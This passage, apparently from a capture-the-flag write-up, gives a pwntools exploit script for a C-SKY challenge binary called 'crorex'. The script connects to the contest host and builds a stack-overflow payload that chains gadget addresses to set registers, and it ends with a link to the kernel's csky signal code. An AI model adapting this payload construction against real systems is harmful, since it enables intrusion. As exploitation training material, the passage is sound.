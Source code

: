 ```py
from pwn import *

e = ELF("./crorex")
context.terminal = ["alacritty","-e"]

GDB_ARGS="""
layout asm
layout regs
add-symbol-file sym.o 0x0
b get_input
b exit
b *0x8738
b *0x8936
b *0x8770
"""

def conn():
    if args.LOCAL:
        r = process(["./qemu", "-g", "1235", e.path], env={})
    else:
        if args.DOCKER:
            nc = "localhost 1337"
            ssl = False
        else:
            nc = "ncat --ssl crorex-e073519243d25f48.challs.tfcctf.com 1337"
            ssl = True

        addr, port = nc.strip().split()[-2:]
        r = remote(addr, port, ssl=ssl)

    if args.GDB:
        with open('args.gdb','w') as f:
            f.write(GDB_ARGS)
            f.write("set architecture csky\n")
            f.write("target remote localhost:1235\n")

        process(context.terminal + ["sh", "-c", f"sleep 1; sudo gdb -x args.gdb {e.path}"])

    return r

def main():
    r = conn()

    stack = 0x3ffffebc

    payload = fit({
        16 - 12: p32(0xff),
        16 - 4: p32(0),
        16 - 0: p32(stack),
    }, filler = b'\0')

    payload = payload.ljust(112, b'\0')
    payload += p32(0)
    payload += p32(stack) #rbp

    # set r3
    payload += p32(0x87c0)
    payload += p32(stack+16)

    # set r8
    payload += p32(0x88a6)
    payload += p32(stack+16)

```

[linux]: https://elixir.bootlin.com/linux/v6.16.3/source/arch/csky/kernel/signal.c#L69